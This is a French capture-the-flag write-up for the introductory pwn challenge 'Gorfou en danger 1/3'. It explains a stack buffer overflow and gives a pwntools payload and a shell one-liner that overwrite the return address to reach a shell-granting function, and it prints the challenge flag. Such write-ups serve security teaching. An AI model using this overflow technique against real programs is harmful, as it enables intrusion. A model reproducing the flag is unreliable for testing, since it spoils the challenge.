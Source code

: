 # Writeup pour `Gorfou en danger 1/3`

Auteur : *Pwnsard*  
Difficulté : *Introductif*

### Notions prérequises :
- Fonctionnement d'une stackframe
- Buffer overflow

### Protections :

```
checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   44 Symbols	  No	0		2		chall
```

### Principe

Il s'agit d'un buffer overflow basique pour faire un **`ret2win`** sur la fonction debug_access.

Dans cette partie du code, il y a un overflow évident de 0x30 bytes :

```C
char command[0x100]; 
printf("> ");
read(0, command, 0x130);
```

En envoyant le payload
```python
b"A" * (0x100 + 0x8) + p64(exe.symbols['debug_access'])
```
on réécrit le saved rip avec l'adresse de debug_access et on obtient un shell.

### Script de résolution :

Voir `solve.py`  
Sinon la commande `(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xfd\x04\x40\x00\x00\x00\x00\x00"; cat) | ./chall` fonctionne également.

### Flag : 

`404CTF{c@n_7He_GoRF0u_F1y_?}`